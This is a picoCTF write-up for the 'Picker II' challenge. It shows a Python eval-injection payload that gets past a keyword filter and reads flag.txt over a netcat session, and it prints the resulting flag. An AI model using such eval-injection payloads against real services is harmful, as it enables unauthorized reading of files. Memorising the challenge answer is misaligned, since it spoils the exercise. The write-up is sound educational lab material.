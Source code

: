 # Picker II

The same vulnerability is present here: see Picker I. However, now there's this check which we will have to bypass:

```
def filter(user_input):
  if 'win' in user_input:
    return False
  return True
```

The `()` is still appended to the input, so we have to craft a payload that both prints the flag file to the screen, and doesn't throw an error when `()` is added. It has to be a single statement (not multiple ones split by a semi-colon): `eval` only accepts one. I found such a statement after digging around in the Python docs for a while:

```
$ nc saturn.picoctf.net 56118
==> getRandomNumber
4
==> print(open("flag.txt","r").read()).__sizeof__                  
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_95d44590}
```

This works because the call `print(open("flag.txt","r").read())` returns `none`, and `__sizeof__` even exists on the `NoneType`.
